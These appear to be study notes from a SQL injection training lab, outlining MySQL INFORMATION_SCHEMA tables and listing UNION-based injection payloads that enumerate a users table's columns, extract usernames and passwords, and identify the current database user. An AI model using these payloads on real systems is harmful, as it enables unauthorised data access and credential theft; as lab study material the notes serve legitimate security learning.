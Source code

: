 Summary

`INFORMATION_SCHEMA` - Database; holds databases metadata about and tables present

`SCHEMATA` - Table in `INFORMATION_SCHEMA`; holds info  about all databases on the server

`SCHEMA_NAME` - Column in `SCHEMATA`; holds database names

`TABLES` - Table in `INFORMATION_SCHEMA`; holds info about all tables in any database

`TABLE_SCHEMA` - column points to the database each table belongs to

`TABLE_NAME` - column storing table names

`COLUMNS` - Table holding info on all columns

`COLUMN_NAME` - Column name column

`TABLE_NAME` -  Which table column is in; column

`TABLE_SCHEMA` - Which database this column is in; column

dot operator = `database.table`

Logic:

SELECT columns FROM DATABASE.TABLE

Payloads for question section:

Lists columns in the `users` table

`test' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='users'--` 

Lists username and password for newuser

`test' UNION select 1,username,password,NULL from ilfreight.users WHERE username like 'newuser'--` 

## Reading Files

In MySQL, users must have `FILE` privilege to read files

- Dump file into table then reading from that table

Finding name of current DB User

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user

'aaa' UNION SELECT 1, user(), 3, 4-- -

'aaa' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

![image.png](SQL%20Injection%20Fundamentals%202776c31c8f4a805f81d6ec370c9f38b0/image%2011.png)
